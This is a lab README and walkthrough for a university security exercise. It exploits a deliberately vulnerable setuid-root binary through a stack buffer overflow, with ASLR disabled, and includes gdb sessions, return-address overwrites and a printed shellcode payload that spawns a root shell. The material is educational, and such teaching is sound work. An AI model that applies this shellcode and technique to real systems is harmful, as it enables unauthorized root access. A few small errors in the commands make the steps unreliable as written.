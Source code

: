 # UAF CSC x86_64 Buffer Overflow Lab
The purpose of this lab is to exercise exploiting the root setuid of a program via a buffer overflow.

## Setup
This lab will require a 64bit Linux virtual machine with cmake and gdb installed, and [ASLR](https://www.networkworld.com/article/3331199/what-does-aslr-do-for-linux.html) disabled. This can be done by adding the file `(/etc/sysctl.d/01-disable-aslr.conf)` containing the following to `sysctl`:
```txt
kernel.randomize_va_space = 0
```

No particular distribution is required, though this has only been tested on Ubuntu and Arch with Intel CPUs.

Once the VMs are setup make 2 accounts. 

### Account 1
This first account will be our target "Administrator" account with a long secure password (though do not one that you use), 
and sudo / root access.

If youd like to use this as a ctf-style lab you may also include a flag that will appear on the desktop when the user logs into the GUI, 
but for our purposes this will just serve the purpose of demonstrating that you have access to any account as root, 
and can even log into said accounts.

### Account 2
This second account will be a "Guest" account with no passwords, and no sudo / root access. 
This account shall have the main vulnerable [hash](main.c) binary installed with its setuid as root. 
It is highly recommended to also provide the inline shellcode string found in [shellcode.h](shellcode.h) in a hidden file.

## Writeup (Spoilers ahead!)

### Step 0: Information gathering

When looking for information that can be used to our advantage one if the first things to do will be to check out the hash program.
Running it without any arguments produces the following:
```txt
Usage: ./hash <string>
```
Ok, so it expects a string. Providing a text string `foo` changes the output to:
```txt
Hash: $6$/.VATz3thu0iHIDZ$9BsKgAl9DuiIQ51zXoFnVrOHU.0HbyHGuo1xcw9Szwja08fAqd8zBnGdWWrVT24D.n0Qd.LfV8BCI1aWvg8HV1
```
Neat! It hashes our string. Wonder if there's any limitations on the input?

Continuing to investigate the program if we run `ls -l hash` we learn the following:
```txt
-rwsr-xr-x 1 root root 23104 Nov  7 20:05 hash
```
Of note is the setuid bit, and the fact that it's owned by root.

If we run the `file` command on it we get the following:
```txt
hash: setuid ELF 64-bit LSB pie executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=349b894fbc026b7b75dbe745f9ec698ca96daa6a, for GNU/Linux 4.4.0, with debug_info, not stripped
```

A few takeaways from this is that the program is a setuid 64-bit executable, that is **not stripped**.  
This means that when we pop it in a debugger with `gdb hash` we can view the programs source code!

### Step 1: Running (exploiting) with a debugger
In gdb we can view the source code with the `list` command which returns the following:
```c
(gdb) list
1	#include <stdio.h>
2	#include "hash.h"
3	
4	int main(int argc, char** argv) {
5	
6		if (argc != 2) {
7			printf("Usage: ./hash <string>\n");
8			return 1;
9		}
10	
(gdb)
11		char input[512];
12		strcpy(input, argv[1]);
13	
14		char* hash = crypt(input, makesalt('6'));
15		printf("Hash: %s\n", hash);
16	
17		return 0;
18	}
```
After the check to see if a string is provided what immediately jumps out is the size allotted for our input; 
It only allocates 512 bytes for our input, but never checks the length. 
If we *hypothetically* provided a string longer than 512 bytes we could possibly make the program execute arbitrary code!

### Step 2: Making our own return address

Luckily for us we dont have to actaully write a string that is 500+bytes long; we can get the terminal to do it for us.
If we execute provide `$(printf "\x41%.0s" {1..540})` as our string it'll translate to 540 "A"s (hex 41) - which results in the following:
```txt
(gdb) run $(printf "\x41%.0s" {1..540})
Starting program: hash $(printf "\x41%.0s" {1..540})
[Thread debugging using libthread_db enabled]
Using host libthread_db library "/usr/lib/libthread_db.so.1".
Hash: (null)

Program received signal SIGSEGV, Segmentation fault.
0x00007f0041414141 in ?? ()
```
For our case ignore the threading information. Whats notable here is the address it segfaulted on - `0x00007f0041414141` looks like it was partially overwritten with our 41s.

This is our return address. 
If we increase the number of 41s we provide to 542 we could overwrite the entire thing, but it would be best if we could pickout an address on the stack to jump to.

We can take a look at our stack memory by entering the following:
```txt
(gdb) x /-140fx $rsp
0x7ffd6cb8fe90:	0x6cb901c8	0x00007ffd	0x00000000	0x00000002
0x7ffd6cb8fea0:	0x41414141	0x41414141	0x41414141	0x41414141
0x7ffd6cb8feb0:	0x41414141	0x41414141	0x41414141	0x41414141
0x7ffd6cb8fec0:	0x41414141	0x41414141	0x41414141	0x41414141
0x7ffd6cb8fed0:	0x41414141	0x41414141	0x41414141	0x41414141
0x7ffd6cb8fee0:	0x41414141	0x41414141	0x41414141	0x41414141
0x7ffd6cb8fef0:	0x41414141	0x41414141	0x41414141	0x41414141
0x7ffd6cb8ff00:	0x41414141	0x41414141	0x41414141	0x41414141
0x7ffd6cb8ff10:	0x41414141	0x41414141	0x41414141	0x41414141
0x7ffd6cb8ff20:	0x41414141	0x41414141	0x41414141	0x41414141
0x7ffd6cb8ff30:	0x41414141	0x41414141	0x41414141	0x41414141
0x7ffd6cb8ff40:	0x41414141	0x41414141	0x41414141	0x41414141
0x7ffd6cb8ff50:	0x41414141	0x41414141	0x41414141	0x41414141
0x7ffd6cb8ff60:	0x41414141	0x41414141	0x41414141	0x41414141
0x7ffd6cb8ff70:	0x41414141	0x41414141	0x41414141	0x41414141
0x7ffd6cb8ff80:	0x41414141	0x41414141	0x41414141	0x41414141
0x7ffd6cb8ff90:	0x41414141	0x41414141	0x41414141	0x41414141
0x7ffd6cb8ffa0:	0x41414141	0x41414141	0x41414141	0x41414141
0x7ffd6cb8ffb0:	0x41414141	0x41414141	0x41414141	0x41414141
0x7ffd6cb8ffc0:	0x41414141	0x41414141	0x41414141	0x41414141
0x7ffd6cb8ffd0:	0x41414141	0x41414141	0x41414141	0x41414141
0x7ffd6cb8ffe0:	0x41414141	0x41414141	0x41414141	0x41414141
0x7ffd6cb8fff0:	0x41414141	0x41414141	0x41414141	0x41414141
0x7ffd6cb90000:	0x41414141	0x41414141	0x41414141	0x41414141
0x7ffd6cb90010:	0x41414141	0x41414141	0x41414141	0x41414141
0x7ffd6cb90020:	0x41414141	0x41414141	0x41414141	0x41414141
0x7ffd6cb90030:	0x41414141	0x41414141	0x41414141	0x41414141
0x7ffd6cb90040:	0x41414141	0x41414141	0x41414141	0x41414141
0x7ffd6cb90050:	0x41414141	0x41414141	0x41414141	0x41414141
0x7ffd6cb90060:	0x41414141	0x41414141	0x41414141	0x41414141
0x7ffd6cb90070:	0x41414141	0x41414141	0x41414141	0x41414141
0x7ffd6cb90080:	0x41414141	0x41414141	0x41414141	0x41414141
0x7ffd6cb90090:	0x41414141	0x41414141	0x41414141	0x41414141
0x7ffd6cb900a0:	0x41414141	0x41414141	0x00000000	0x00000000
0x7ffd6cb900b0:	0x41414141	0x41414141	0x41414141	0x00004141
```

Look at all those 41s. Lets pick out an address towards the top - memory shifts around slightly, so the larger the buffer the better.
Well use `0x7ffd6cb8fec0` for this example.

Going back to our string we have to input our address in backwards as intel is [little endian](https://en.wikipedia.org/wiki/Endianness#Hardware).
So the resulting code should fill the stack with 41s and then point back into it:
```txt
(gdb) run $(printf "\x41%.0s" {1..536}; printf "\xc0\xfe\xb8\x6c\xfd\x7f")
The program being debugged has been started already.
Start it from the beginning? (y or n) y
Starting program: /home/spud/GitHub/CSC-BufferOverflow-Lab/hash $(printf "\x41%.0s" {1..536}; printf "\xc0\xfe\xb8\x6c\xfd\x7f") # 0x7ffd6cb8fec0
[Thread debugging using libthread_db enabled]
Using host libthread_db library "/usr/lib/libthread_db.so.1".
Hash: (null)

Program received signal SIGSEGV, Segmentation fault.
0x00007ffd6cb8fec0 in ?? ()
```
Hey! That looks like our address! 
If we examine what's at our return address which is causing it to segfault it will reveal that it's trying to run `0x41414141`
```txt
(gdb) x 0x7ffd6cb8fec0
0x7ffd6cb8fec0: 0x41414141
```

### Step 3: Spawning a shell
So we control where the stack returns to... Why not have it execute code that spawns a shell rather than just a bunch of 41s?
To speed things up there is shellcode provided with the lab. 
But because our shellcode puts its own variables on the stack we need to give it some buffer, otherwise it will overwrite its own tail.

```txt
(gdb) run $(printf "\x41%.0s" {1..480}; printf "\x48\x31\xff\x6a\x69\x58\x0f\x05\x6a\x3b\x58\x48\x31\xf6\x48\x31\xd2\x57\x48\xbf\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x57\x48\x89\xe7\x0f\x05"; printf "\x41.0s" {1..22}; printf "\xc0\xfe\xb8\x6c\xfd\x7f")
```

So our shell works - Excelent, although this was done in a debugger. The real test now is does it work outside the debugger.
Exiting twice (once for the shell and the final for gdb) and returning to our shell we can now try running the program with our crafted input.

Memory addresses may be slightly different outside the debugger, but that's why we allowed for such a large noop sled.
We can catch more addresses with a larger net so to say.

Once the program has been run and a shell has been spawned go ahead and check who you are running the shell as via
`whoami`



Thus concludes the writeup.